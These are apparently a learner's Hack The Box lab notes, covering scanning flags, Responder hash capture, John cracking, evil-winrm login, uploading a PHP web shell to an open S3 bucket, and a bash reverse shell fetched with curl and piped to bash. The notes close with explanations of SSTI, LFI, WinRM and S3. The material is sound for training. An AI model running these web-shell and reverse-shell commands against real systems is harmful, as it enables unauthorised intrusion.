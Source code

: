 #nmap

```shell
-sC: Performs a script scan using the default set of scripts. It is equivalent to --
script=default. Some of the scripts in this category are considered intrusive and
should not be run against a target network without permission.

-sV: Enables version detection, which will detect what versions are running on what
port.h

-p- : This flag scans for all TCP ports ranging from 0-65535

--min-rate : This is used to specify the minimum number of packets Nmap should send per
second; it speeds up the scan as the number goes higher
```

#gobuster

```shell
dir : Uses directory/file enumeration mode.
vhosts : Uses VHOST for brute-forcing.

--url : The target URL.
--wordlist : Path to the wordlist.
-x : File extension(s) to search for. (php/html)
```

# Responder:
```shell
sudo responder -I {network_interface} 
http://unika.htb/?page=//10.10.14.25/somefile
```

# John the riper:
```shell
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

#evil-winrm
```shell
evil-winrm -i 10.129.136.91 -u administrator -p badminton
```

#AWS
```shell
$ aws configure
AWS Access Key ID [None]: temp
AWS Secret Access Key [None]: temp
Default region name [None]: temp
Default output format [None]: temp
                                                                                                            
$ aws --endpoint=http://s3.thetoppers.htb s3 ls
2022-08-14 13:08:27 thetoppers.htb

$ aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2022-08-14 13:08:27          0 .htaccess
2022-08-14 13:08:27      11952 index.php

$ aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
upload: ./shell.php to s3://thetoppers.htb/shell.php              
                                                                                                            
```

# PHP
```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
http://thetoppers.htb/shell.php?cmd=id
```

#REVERSE SHELL
Create shell.sh on local machine with the following content:
```shell
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
```

start ncat listener on our local port and python http server on the same shell.sh directory:
```shell
nc -nvlp 1337
python3 -m http.server 8000
```
On web server open url http://thetoppers.htb/shell.php?cmd=curl%2010.10.15.131:8000/shell.sh|bash

Reverse shell opened on nc terminal:
```shell
$ nc -nvlp 1337
Listening on 0.0.0.0 1337
ls
Connection received on 10.129.55.155 50192
bash: cannot set terminal process group (1612): Inappropriate ioctl for device
bash: no job control in this shell
www-data@three:/var/www/html$
```

# XSS Cross site scripting

Cross Site Scripting [XSS](https://owasp.org/www-community/attacks/xss/) 

What is Node.js:
Node.js is an open-source, cross-platform, back-end JavaScript runtime environment that can be used to build
scalable network applications.

What is Express:
Express is a minimal and flexible Node.js web application framework that provides a robust set of features for web
and mobile applications.

What is a Template Engine?
Template Engines are used to display dynamically generated content on a web page. They replace the
variables inside a template file with actual values and display these values to the client (i.e. a user opening a
page through their browser).
For instance, if a developer needs to create a user profile page, which will contain Usernames, Emails,
Birthdays and various other content, that is very hard if not impossible to achieve for multiple different
users with a static HTML page. The template engine would be used here, along a static "template" that
contains the basic structure of the profile page, which would then manually fill in the user information and
display it to the user.
Template Engines, like all software, are prone to vulnerabilities. The vulnerability that we will be focusing on
today is called Server Side Template Injection (SSTI).

What is an SSTI?
Server-side template injection is a vulnerability where the attacker injects malicious input into a template in order
to execute commands on the server.
To put it plainly an SSTI is an exploitation technique where the attacker injects native (to the Template
Engine) code into a web page. The code is then run via the Template Engine and the attacker gains code
execution on the affected server.
This attack is very common on Node.js websites and there is a good possibility that a Template Engine is
being used to reflect the email that the user inputs in the contact field


# INFO

WinRM, is a Windows-native built-in remote management protocol. port: 5985
NTLM: New Technology LAN Manager
LFI: Local File inclusion // File Inclusion Vulnerability // https://www.php.net/manual/en/function.include.php 
RFI: Remote File Inclusion // File Inclusion Vulnerability // https://www.php.net/manual/en/function.include.php

S3: is a cloud-based object storage service. It allows us to store things in containers called buckets.
AWS S3 buckets have various use-cases including Backup and Storage, Media Hosting, Software Delivery,
Static Website etc. The files stored in the Amazon S3 bucket are called S3 objects.
